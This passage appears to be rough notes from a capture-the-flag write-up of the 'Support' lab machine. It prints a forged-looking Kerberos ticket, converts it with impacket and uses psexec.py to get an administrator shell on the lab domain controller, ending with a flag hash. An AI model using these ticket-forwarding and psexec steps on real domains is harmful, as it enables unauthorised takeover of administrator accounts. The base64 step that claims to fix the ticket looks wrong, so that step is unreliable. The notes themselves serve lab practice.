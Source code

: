 
![[Pasted image 20231122122559.png]]

```
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
      cnQuaHRi
```

Will use a tools from impacket tool kit to convert this ticket to .cache so that we can use to login via it.

We got a error let's tackle it
```
python ticketConverter.py kerberos.kirbi ticket.ccache
```
![[Pasted image 20231122123205.png]]

We have simply coded the file to base 64
base64 ticket.kirbi.b64 > ticket.kirbi
```
mv kerberos.kirbi ticket.kirbi.b64
base64 ticket.kirbi.b64 > ticket.kirbi
```

So lets try to run the above command and see if we still gets the error.
So there was problem with the spacing the i think

![[Pasted image 20231122124027.png]]

Let's set the ticket ticket.ccache otherwise it will try to login with the previous set cache and through error
```
export KRB5CCNAME=Wedontexist.ccache 
```
or  simply without exporting it and using it
![[Pasted image 20231122125229.png]]

I have copy the wrong ticket as there was 3 ticket we have to copy the last ticket
```
KRB5CCNAME=ticket.ccache psexec.py -k -no-pass support.htb/administrator@dc.support.htb
```
![[Pasted image 20231122125433.png]]

```
809ca9e5522b069001b9ba82a20ef55e
```

